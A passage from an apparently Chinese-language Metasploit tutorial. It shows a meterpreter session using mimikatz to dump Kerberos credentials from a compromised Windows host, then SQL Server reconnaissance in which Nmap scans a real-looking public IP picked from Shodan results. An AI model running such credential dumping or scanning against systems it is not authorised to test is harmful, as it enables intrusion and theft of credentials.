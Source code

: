 ```
meterpreter > load mimikatz
Loading extension mimikatz...Success.
meterpreter > kerberos
[!] Not currently running as SYSTEM
[*] Attempting to getprivs ...
[+] Got SeDebugPrivilege.
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;57921  NTLM       DESTINY-7846DE5  Administrator
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE
0;49264  NTLM
0;999    NTLM       WORKGROUP        DESTINY-7846DE5$
```

好吧，看来没有。

SCADA系统通常是基于XP实现的，因此其受攻击的可能性很大。

最后，scadahacker.com 里有大量关于SCADA漏洞的信息。

## Database/SQL Server

默认情况下，SQL Server运行在TCP的1433及UDP的1434端口。

### 信息收集

首先在Shodan上搜索`sql server`，然后从结果中选取一些IP来用Nmap获取一些信息：

```
msf > db_nmap -sV -p1433 -Pn 123.21.xxx.xxx
[*] Nmap: Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-29 15:32 CST
[*] Nmap: Nmap scan report for 123.21.114.163
[*] Nmap: Host is up (0.30s latency).
[*] Nmap: PORT     STATE SERVICE  VERSION
[*] Nmap: 1433/tcp open  ms-sql-s Microsoft SQL Server 2008 R2 10.50.2500; SP1
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

对于UDP端口的扫描需要root权限，所以我们在Msf外部对同一个IP进行扫描：

```
sudo nmap -sU -sV -p1434 -Pn 123.21.114.163
Password:

Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-29 15:38 CST
Nmap scan report for 123.21.114.163
Host is up.

PORT     STATE         SERVICE  VERSION
1434/udp open|filtered ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.92 seconds
```
